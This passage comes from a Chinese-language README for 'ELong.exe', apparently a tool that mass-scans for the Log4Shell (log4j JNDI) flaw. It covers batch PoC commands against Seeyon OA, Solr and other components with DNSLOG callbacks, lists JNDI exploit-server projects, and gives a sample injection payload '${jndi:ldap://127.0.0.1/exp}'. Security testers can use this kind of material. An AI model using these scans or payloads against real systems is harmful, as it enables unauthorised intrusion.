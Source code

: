 - https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/usages
- https://security.googleblog.com/2021/12/understanding-impact-of-apache-log4j.html
- https://github.com/authomize/log4j-log4shell-affected
- https://github.com/NS-Sp4ce/Vm4J

二、资产识别

​	资产识别功能暂时不准备更新，资产识别可以通过[Banli](https://github.com/Goqi/Banli)这个项目实现！

- ELong.exe is
- ELong.exe is all
- ELong.exe is vmware
- ......

## 03-漏洞证明

程序目前的设计模式是只扫描不检测，通过JNDI或DNSLOG平台判断是否存在漏洞。使用此模块建议在资产识别之后进行。请创建poc.txt文件，内容为dnslog平台URL地址。使用ELong.exe poc seeyon命令，会自动对isSeeyon.txt文件中的致远OA进行漏洞验证，使用ELong.exe poc solr命令，会自动对isSolr.txt文件中的Solr资产进行漏洞验证等。**结果在dnslog平台上面可以看到是那个URL存在漏洞！**使用ELong.exe poc all 会自动对存在漏洞的组件进行批量验证。

目前支持**17个**组件的漏洞概念证明！

- ELong.exe poc
- ELong.exe poc seeyon
- ELong.exe poc solr
- ELong.exe poc all

参考EmYiQing大佬的代码，加入了一键启动JNDI模块。

## 04-漏洞利用

本工具公开版仅为poc验证工具，payload在程序中写死了，只可以判断是否存在漏洞，不可以获取系统权限。内部版提供exp功能，暂时不对外公开。

漏洞利用需要JNDI服务器启动恶意的class类。参下列的项目：

```
 https://github.com/welk1n/JNDI-Injection-Exploit
 https://github.com/bradfitz/jndi
 https://github.com/EmYiQing/LDAPKit
 https://github.com/su18/JNDI
 https://github.com/feihong-cs/JNDIExploit
 https://github.com/0x727/JNDIExploit
 https://github.com/veracode-research/rogue-jndi
 https://github.com/quentinhardy/jndiat
 https://github.com/p1n93r/AttackJNDI
 https://github.com/Jeromeyoung/JNDIExploit-1
 https://github.com/exp1orer/JNDI-Inject-Exploit
 https://github.com/zu1k/ldap-log
 https://github.com/orleven/Celestion
```

请创建exp.txt文件，内容为完整的jndi利用payload。例如：${jndi:ldap://127.0.0.1/exp}

- ELong.exe exp all

## 05-暴力扫描
